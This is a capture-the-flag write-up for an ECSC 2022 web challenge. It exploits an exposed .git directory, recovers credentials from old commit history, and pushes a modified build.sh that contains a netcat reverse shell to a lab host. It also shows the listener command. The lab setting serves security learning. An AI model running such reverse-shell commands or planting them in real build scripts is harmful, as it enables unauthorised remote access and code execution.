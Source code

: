 ```yaml
---
layout: writeup
categories: [writeup]

# Mandatory parameters
title:  "Glaciers of Switzerland"
author: "punshLineLama"
date:   2022-09-15 01:10:05 +0200
event: "(open)ECSC 2022"

# Optional parameters
ctf_categories: [web]
image: "img/chall.png"
---
```



![Image of Challenge](img/chall.png)

## TL;DR
- Brute-force directories.
- Find the .git directory
- Extract the repo with git-dumper (https://github.com/arthaud/git-dumper)
- Find the credientials in the git history of an old branch
- Write to the repo with the extracted creds and get code execution

## Complete Writeup

With gobuster, we found that there is a .git directory on the server.
Then we installed git-dumper with `pip3 install git-dumper`
Then extracted the repo with:
`~/.local/bin/git-dumper https://ea439dee-8c4d-4ead-aa86-40a208094d02.idocker.vuln.land//website-repo/.git ~/Documents/openecsc/repo_dump`

![](img/pic1.png)

There was nothing too interesting in the files. 
With  gitkraken we did some further exploration and found an old version of the README.md with had credientials in them:
![](img/creds.png)

As the build.sh gets executed on each push, we modified it to get us a nc reverse shell back:

```bash
#!/bin/bash

cp index.html.tpl index.html
nc 10.13.0.xxx 5555 -e /bin/bash

```
Then we started a listener with `nc -lnvp 5555`

And pushed to the repo:
`git push https://ea439dee-8c4d-4ead-aa86-40a208094d02.idocker.vuln.land/.git-server/website.git/`

We get a reverse shell back and get the flag. (Sorry I did not save the flag.)


## Lessons learned
Its often easier to use a GUI tool to explore all branches and commits of a git repo.
